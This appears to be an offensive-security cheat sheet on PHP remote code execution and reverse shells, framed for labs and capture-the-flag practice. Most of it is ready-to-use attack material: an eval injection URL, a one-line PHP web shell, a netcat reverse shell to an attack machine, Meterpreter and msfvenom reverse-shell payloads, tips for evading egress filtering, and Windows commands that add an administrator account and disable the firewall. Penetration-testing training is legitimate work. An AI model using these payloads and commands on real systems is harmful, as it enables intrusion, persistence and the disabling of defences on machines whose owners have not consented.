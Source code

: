 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to executing commands directly on the underlying operating system via the web application, in the language of the web application.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## Perl shell
I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay. 

As with the PHP shell, change the following variables:
```
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```
You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

## Windows
Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload. If we are dealing with an IIS server, create our own .asp or .aspx reverse shell payload with msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```
Attempt to download nc.exe, and then run something along the lines of “nc.exe -e cmd.exe attackerip 1234”.
.
Powershell injection
Here’s some other useful commands on windows. If the machine you’re facing has RDP enabled (port 3389), you can often create your own user and add it to the “Remote Desktop Users” group, then just log in via remote desktop.

Add a user on windows:

net user $username $password /add
Add a user to the “Remote Desktop Users” group:

net localgroup "Remote Desktop Users" $username /add
Make a user an administrator:

net localgroup administrators $username /add
Disable Windows firewall on newer versions:

NetSh Advfirewall set allprofiles state off
Disable windows firewall on older windows:

netsh firewall set opmode disable

## Upgrading shell

```
python -c 'import pty; pty.spawn("/bin/bash");'
```
## Further reading
* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
